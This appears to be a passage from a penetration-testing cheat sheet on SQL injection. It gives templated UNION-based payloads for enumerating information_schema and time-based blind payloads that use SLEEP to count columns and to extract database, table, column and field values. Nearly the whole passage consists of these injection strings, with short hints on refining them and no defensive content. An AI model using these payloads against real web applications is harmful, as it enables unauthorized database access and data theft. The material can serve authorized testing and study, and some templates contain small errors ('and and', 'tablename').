 {% hint style="warning" %}
If at any point of iteration, you found a value that you don't need to get you must exclude it to restringe your injection
{% endhint %}

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue' UNION $found FROM information_schema.tables WHERE table_schema = '$dbfound' and and tablename != $notobjective and $table_name LIKE 'a%';
```
{% endcode %}

{% hint style="info" %}
`$notobjective`refers to the value that we found but we don't need
{% endhint %}

### <mark style="color:purple;">Time-Based</mark>

Make use of the time a response is generated to the request to determine if the query value was found or not. It is used when we don't get a visual return to the injection.

* Determining the number of columns

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue' UNION SELECT SLEEP($time);
$url/query?$column=$changedvalue' UNION SELECT SLEEP($time),2;
#Try until the petition time is different
```
{% endcode %}

{% hint style="info" %}
The time of an error request is always less than a correct query.
{% endhint %}

***

* Make a Boolean-based iterative process to map DB, tables, and columns you need

{% code overflow="wrap" lineNumbers="true" %}
```sql
#Find DB name, table, and column by an iterative process using sleep
$url/query?$column=$changedvalue' UNION SELECT SLEEP($time),$found FROM information_schema.tables WHERE table_schema = '$dbfound' and table_name = 'table' and column_name LIKE '%';
#The values of each step are dictated by the time the response is sent
```
{% endcode %}

***

* Make Boolean based iterative process to find the value you need

{% code overflow="wrap" lineNumbers="true" %}
```sql
#Find DB name, table, and column by an iterative process using sleep
$url/query?$column=$changedvalue' UNION SELECT SLEEP($time),$found FROM $table_found WHERE $column_found 
```
{% endcode %}
